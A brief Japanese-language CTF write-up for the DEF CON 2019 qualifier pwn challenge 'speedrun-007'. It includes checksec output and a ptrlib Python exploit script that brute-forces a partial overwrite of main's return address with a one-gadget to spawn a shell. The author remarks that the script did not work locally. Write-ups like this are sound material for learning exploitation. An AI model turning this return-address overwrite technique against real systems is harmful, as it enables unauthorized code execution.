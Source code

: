# [pwn 5pts] speedrun-007 - DEF CON CTF 2019 Qualifier
64ビットでSSPは無効です。
```
$ checksec -f speedrun-007
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No	0		2	speedrun-007
```
スタック上のバッファを基点とした相対アドレスに任意回数書き込める。
メモリリークが無いのでmainのリターンアドレスをone gadgetに変える。

```python
from ptrlib import *
from time import sleep

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

payload = b'\x22\x33\xa3'

#log.level = ['warning']
while True:
    sock = Process("./speedrun-007")
    sock.send("hello")
    for i in range(len(payload)):
        sock.recvuntil("(y/n)?")
        sock.send("y")
        sock.send(p16(0x638 + i))
        sock.send(bytes([payload[i]]))
    sock.send("n")
    sock.recvuntil("L8R.\n")
    sock.sendline("id")
    l = sock.recv(timeout=0.1)
    if l:
        print(l)
        break
    l = sock.recv(timeout=0.1)
    if l:
        print(l)
        break
    sock.close()
    sleep(0.1)
```
ローカルでは動きませんでした。

# 感想
ブルートフォース面白くない。

# 参考文献
[1] [https://go-madhat.github.io/speedrun/](https://go-madhat.github.io/speedrun/)